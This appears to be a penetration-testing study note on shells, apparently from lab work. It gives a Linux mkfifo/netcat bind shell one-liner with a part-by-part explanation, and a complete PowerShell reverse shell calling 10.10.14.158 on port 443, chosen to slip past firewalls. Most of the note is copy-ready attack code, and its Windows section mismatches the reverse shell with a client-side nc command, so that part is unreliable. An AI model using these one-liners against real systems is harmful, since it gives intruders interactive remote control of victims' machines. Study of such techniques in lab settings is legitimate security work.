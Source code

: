 # Shells explained
> Want to use a common port so firewall doesn't block it


## Linux Shells  
**Bind Shell**

On client:  
`nc -nv 10.129.41.200 7777`

On victim machine:  
`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f`

#### Explanation of the above: 
Parts will be segmented by code before semicolon.  

Part 1: Removes /tmp/f  Semi colon executes command sequentially   
Part 2: Makes a FIFO named pipe at the location. /tmp/f is the fifo named pipe file  
Part 3: Concatenates the FIFO named pipe  
Part 4: Concatenates the FIFO named pipe file /tmp/f, the pipe (`|`) connects the standard output of cat /tmp/f to the standard input of the command that comes after the pipe (`|`).
Part 5: Specifies the command language interpreter using the -i option to ensure the shell is interactive. 2>&1 ensures the standard error data stream (2) & standard input data stream (1) are redirected to the command following the pipe (|).
Part 6: Starts a nc listener and output is redirected to /tmp/f, serving the bash shell to whoever connects to the network socket.  


## Windows Shells
**Reverse Shells**

On client:  
`nc -nv 10.129.41.200 7777`

On victim machine:  
`powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`